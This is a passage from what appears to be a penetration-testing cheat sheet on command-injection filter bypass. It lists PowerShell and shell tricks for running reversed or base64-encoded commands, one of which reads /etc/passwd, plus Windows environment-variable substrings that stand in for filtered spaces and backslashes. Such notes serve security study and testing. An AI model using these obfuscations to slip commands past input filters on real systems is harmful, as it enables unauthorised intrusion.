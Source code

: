 ```PowerShell
iex "$('imaohw'[-1..-20] -join '')"
```
Execute a reversed command

#### Encoded Commands
```Shell
echo -n 'cat /etc/passwd | grep 33' | base64
```
Encode a string with base64

```Shell
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```
Execute base64 encoded string

```PowerShell
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
```
Encode a string with base64

```PowerShell
iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```
Encode a string with base64

### Windows Filtered Character Bypass

#### Get all environment variables
```PowerShell
Get-ChildItem Env:
```

#### Spaces
```cmd
%09
```
Using tabs instead of spaces

```cmd.exe
%PROGRAMFILES:~10,-5%
```
Will be replaced with a space - (CMD)

```cmd.exe
$env:PROGRAMFILES[10]
```
Will be replaced with a space - (PowerShell)

#### Other Characters
```cmd.exe
%HOMEPATH:~0,-17%
```
Will be replaced with `\` - (CMD)

```cmd.exe
$env:HOMEPATH[0]
```
Will be replaced with `\` - (PowerShell)
